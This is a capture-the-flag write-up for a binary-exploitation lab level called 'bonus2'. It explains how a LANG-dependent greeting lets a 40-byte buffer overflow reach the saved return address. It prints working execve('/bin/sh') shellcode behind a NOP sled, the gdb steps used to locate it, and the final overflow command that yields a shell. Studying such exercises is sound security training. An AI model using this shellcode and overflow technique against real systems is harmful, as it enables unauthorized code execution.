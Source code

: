 In this level, our executable has two functions: `main()` and `greetuser()`.

The `main` function takes 2 arguments. It copies the first argument into a 40-byte buffer:

```bash
0x08048564 <+59>:	movl   $0x28,0x8(%esp)
```

Then it copies the second argument right after the first, and finally loads the environment variable `LANG`:

```bash
0x0804859f      c704243887..   mov dword [esp], str.LANG   ; [0x8048738:4]=0x474e414c ; "LANG"
```

There are comparisons of its return value with `fi` and `nl`. If it matches:

- `fi`: the program prints `Hyvää päivää`
- `nl`: it prints `Goedemiddag!`
- Otherwise: it defaults to `Hello`

After several tries without modifying the `LANG` variable, we don’t have enough characters to overwrite the EIP fully.

The EIP is located at `0xbffff6cc`:

```bash
Breakpoint 2 (0x08048528) pending.
(gdb) i f
Stack level 0, frame at 0xbffff6d0:
 eip = 0x804852f in main; saved eip 0xb7e454d3
 Arglist at 0xbffff6c8, args:
 Locals at 0xbffff6c8, Previous frame's sp is 0xbffff6d0
 Saved registers:
  ebp at 0xbffff6c8, eip at 0xbffff6cc
```

So we switch to `nl` with:

```bash
export LANG=nl
```

Now we can overwrite the EIP. We’ll replace its value with the address of a script passed via an environment variable (just like in `bonus0`).

Using the same shellcode (`execve(/bin/sh)`):

```bash
export SCRIPT=$(python -c 'print "\x90" * 80 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
```

We find its address by inspecting the NOPs:

```bash
0xbffff906:	 "SCRIPT=\220\220\220\220\220\220\220\220\220\220..."
```

Memory dump confirms it:

```bash
(gdb) x/12wx 0xbffff906
0xbffff906:	0x49524353	0x903d5450	0x90909090	0x90909090
0xbffff916:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff926:	0x90909090	0x90909090	0x90909090	0x90909090
```

To place the address correctly in our second argument, we check how many characters precede the EIP. Here, we see that 23 `"B"` characters come before `0xbffff6cc`:

```bash
(gdb) x/20wx $eax
0xbffff580:	0x64656f47	0x64696d65	0x21676164	0x41414120
...
0xbffff5b0:	0x41414141	0x42424241	0x42424242	0x42424242
0xbffff5c0:	0x42424242	0x42424242	0x42424242	0xbffff926
```

So we send the following command:

```bash
./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "B" * 23 + "\x26\xf9\xff\xbf"')
```

Which gives us the penultimate flag of the ISO !!!
